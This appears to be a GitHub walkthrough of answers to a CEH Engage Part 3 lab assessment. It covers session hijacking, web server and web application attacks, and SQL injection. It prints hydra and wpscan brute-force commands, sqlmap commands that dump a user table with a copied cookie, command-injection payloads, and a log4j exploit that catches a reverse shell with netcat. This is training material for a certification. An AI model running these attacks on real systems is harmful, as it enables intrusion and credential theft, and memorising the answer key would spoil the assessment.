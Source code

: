 **CEH Engage Part 3**

Part 3 of CEH Skill Check covers Session Hijacking, Evading IDS, Firewalls, and Honeypots, Hacking Web Servers, Hacking Web Applications, and SQL Injection modules. In this part, you must take over active network and application sessions, compromise firewall, IDS, and other perimeter defense mechanisms, and exploit the organization’s web applications. You need to note all the information discovered in this part of the Skill Check and proceed to the subsequent phases of the ethical hacking cycle in the next part of the Skill Check.

Flags

**Challenge 1:**

CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network. (Format: AAA)

#Module 11 Session Hijacking - Lab2 - Wireshark#
![Screenshot 2024-12-12 at 11 49 56 AM](https://github.com/user-attachments/assets/d1210604-f1dc-4e0d-b089-729266bfc0a6)

**Challenge 2:**

Perform an HTTP-recon on www.certifiedhacker.com and find out the version of Nginx used by the web server. (Format: N.NN.N)

#Module 13 Hacking Web Servers - Lab1 - httprecon#
![Screenshot 2024-12-12 at 11 53 33 AM](https://github.com/user-attachments/assets/91dc1966-6db4-4f68-a38b-b722a7b749c8)


**Challenge 3:**

An FTP site is hosted on a machine in the CEHORG network. Crack the FTP credentials, obtain the “flag.txt” file and determine the content in the file. (Format: Aaaaaaa*AAA)

#Module 13 Hacking Web Servers - Lab2 - Hydra#

```
nmap -p 21 172.16.0.0/24

nmap -p 21 10.10.10.0/24

nmap -p 21 192.168.0.0/24
```

```
hydra -L <username.txt> -P <password.txt> ftp://172.16.0.12
```
![Screenshot 2024-12-12 at 12 08 57 PM](https://github.com/user-attachments/assets/cdab6979-a6b1-4ec8-863e-314000aa648b)

![Screenshot 2024-12-12 at 12 11 40 PM](https://github.com/user-attachments/assets/98e5919d-cd2a-4632-a20e-17075b4f6b14)

**Challenge 4:**

Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine. (Format: "NaNNNNNaaaNaaNN*N")

#Module 14 Hacking Web Applications - Lab1 - telnet#

```
telnet movies.cehorg.com 80
```
![Screenshot 2024-12-12 at 12 23 44 PM](https://github.com/user-attachments/assets/52183f4e-c8eb-447b-ba62-cdd385f3fd97)


**Challenge 5:**

Identify the Content Management System used by www.cehorg.com. (Format: AaaaAaaaa)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb www.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 49 33 PM](https://github.com/user-attachments/assets/b8dd8ae6-6773-4b62-a861-adf297c3056e)

**Challenge 6:**

Perform web application reconnaissance on movies.cehorg.com and find out the HTTP server used by the web application. (Format: Aaaaaaaaa-AAA/NN.N)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb movies.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 52 07 PM](https://github.com/user-attachments/assets/a7ea1d8a-b634-4cae-a2f1-2eb3c6282fc1)

**Challenge 7:**

Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder. (Format: N)

#Module 14 Hacking Web Applications - Lab1 - OWASP ZAP#

![Screenshot 2024-12-12 at 2 59 23 PM](https://github.com/user-attachments/assets/2c3a4375-fa10-4a52-8673-082863b51583)

**Challenge 8:**

Identify the load balancing service used by eccouncil.org. (Format: aaaaaaaaaa)

#Module 14 Hacking Web Applications - Lab1 - lbd command#
![Screenshot 2024-12-12 at 3 04 58 PM](https://github.com/user-attachments/assets/eb0e3f9d-4858-4e17-9eb0-03e0914d6445)


**Challenge 9:**

Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)

#Module 14 Hacking Web Applications - Lab2 - wpscan#
```
wpscan --url http://cehorg.com/wp-login.php -U ./Usernames.txt -P ./Passwords.txt
```
![Screenshot 2024-12-12 at 4 14 02 PM](https://github.com/user-attachments/assets/89170933-70c0-4c81-950c-70deeffa24be)


**Challenge 10:**

Perform parameter tampering on movies.cehorg.com and find out the user for id 1003. (Format: Aaaaa)

#Module 14 Hacking Web Applications - Lab2 - XSS Vuberability#
![Screenshot 2024-12-12 at 3 19 27 PM](https://github.com/user-attachments/assets/37b7e592-3b46-40b6-910b-04c23303e353)


**Challenge 11:**

Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials. (Format: N)

#Module 15 SQL Injection - Lab1 -sqlmap#

```
document.cookie
```
![Screenshot 2024-12-12 at 3 31 53 PM](https://github.com/user-attachments/assets/84fb2749-dbd7-4c51-8329-e30a63b8a00b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step 8]" --dbs

```
![Screenshot 2024-12-12 at 3 42 09 PM](https://github.com/user-attachments/assets/88d0eba5-9d66-4657-9991-87a8e06dd2aa)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope --tables
```
![Screenshot 2024-12-12 at 3 42 45 PM](https://github.com/user-attachments/assets/16e09ee5-282b-4d60-bb93-a17e1919943b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope -T User_Login --dump

```
![Screenshot 2024-12-12 at 3 43 38 PM](https://github.com/user-attachments/assets/084f945a-f7ce-480c-8f49-8a5f986ff0e6)

**Challenge 12:**

Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No). (Format: Aa)

#Module 14 Hacking Web Applications - Lab1 - OWASP ZAP#
![Screenshot 2024-12-12 at 4 16 43 PM](https://github.com/user-attachments/assets/13fcd029-9dc9-48b0-98f4-7a8f9347f3c2)

**Challenge 13:**

A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash (Format: Aa*aaNa)

#Module 14 Hacking Web Applications - Lab2 -DVWA#

```
127.0.0.1 && type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
![Screenshot 2024-12-12 at 4 29 20 PM](https://github.com/user-attachments/assets/8fda9f90-2733-4b15-87f6-ca012900ab96)
![Screenshot 2024-12-12 at 4 30 07 PM](https://github.com/user-attachments/assets/a9ca24db-1833-4bf0-b245-3e41d5681bfe)


**Challenge 14:**

Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user (Format: N)

#Module 14 Hacking Web Applications - Lab2 -DVWA#

```
| net user
```

**Challenge 15:**

You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. (Format: Aa*aaNNNN)

#Module 14 Hacking Web Applications - Lab2 - log4j#

```
tar -xf jdk-8u202-linux-x64.tar.gz

mv jdk1.8.0_202 /usr/bin
```

Change Line no: 62, replace jdk1.8.0_20/bin/javac with "/usr/bin/jdk1.8.0_202/bin/javac"

Change Line no: 87, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"

Change Line no: 99, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"

```
nc -lvp 9001
```

```
python3 poc.py --userip 10.10.1.10 --webport 8080 --lport 9001
```
![Screenshot 2024-12-12 at 5 20 06 PM](https://github.com/user-attachments/assets/174c008c-2053-4724-bde2-35a5140400f5)

![image](https://github.com/user-attachments/assets/e8a9db4c-e79c-4989-bedc-e37fdf5bf2d9)

![Screenshot 2024-12-12 at 5 19 33 PM](https://github.com/user-attachments/assets/ab3d11cf-4f9d-41bb-817b-1ae712d5aef4)

